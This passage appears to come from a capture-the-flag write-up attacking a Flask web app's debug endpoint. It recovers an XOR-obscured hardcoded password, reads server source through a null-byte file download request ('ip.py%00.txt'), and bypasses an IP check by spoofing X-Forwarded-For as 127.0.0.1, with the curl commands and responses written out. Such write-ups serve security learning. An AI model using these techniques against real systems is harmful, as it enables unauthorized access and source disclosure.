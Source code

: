 ```
$ cat decode.py 
#!/bin/python3
import pwn

def get_encrypted(passwd):
    return pwn.xor(bytes(passwd, 'utf-8'), b'ayham')

input = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
utf8text = input.decode('utf-8', errors='replace')
print(utf8text)
print(get_encrypted(utf8text)) 
$ python3 ./decode.py 
\x03\x18\x06\x1e
b'AyhamDeebugg'
```

With the decoded password, the check was bypassed and the debug statement executed successfully.

	http://<target ip>:7777/debug?debug=test&password=AyhamDeebugg

Before jumping straight into debugresult.html, there were two things that needed to be handled since it gives unauthrized error 401.

```
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
```

The app was checking the client’s IP before giving access.

```
$ curl http://<target ip>:7777/cloud -X POST -d 'download=ip.py%00.txt'
host_ip = "127.0.0.1"
def checkIP(req):
    try:
        return req.headers.getlist("X-Forwarded-For")[0] == host_ip
    except:
        return req.remote_addr == host_ip
```
A common trick here is using the X-Forwarded-For (XFF) header, which normally tells a server what the original client IP was if traffic went through a proxy or load balancer. If the app trusts this header without validating it, just spoof it by adding

	X-Forwarded-For: 127.0.0.1

This basically makes the server think the request is coming from localhost, which is usually trusted.

Plus, the page expected a session cookie to be set. Without it, access was denied. Once the right cookie was added to the request, the page could be reached successfully.
```
$ curl 'http://<target ip>:7777/debug?debug=test&password=AyhamDeebugg' -I
HTTP/1.1 200 OK
Server: Werkzeug/2.3.4 Python/3.11.0
Date: Thu, 11 Sep 2025 12:47:15 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2024
Vary: Cookie
Set-Cookie: session=.eJyrVkpJTSpNV7JSKkktLlHSUSpILC4uzy9KAYokqSvExFQYGKARqkDSMDkmpgjEMwZxLEAsMxArVV2pFgBkyRqO.aMLE0w.94wUAt4ME8clyOUcGZj5vfblXsU; HttpOnly; Path=/
Connection: close
```

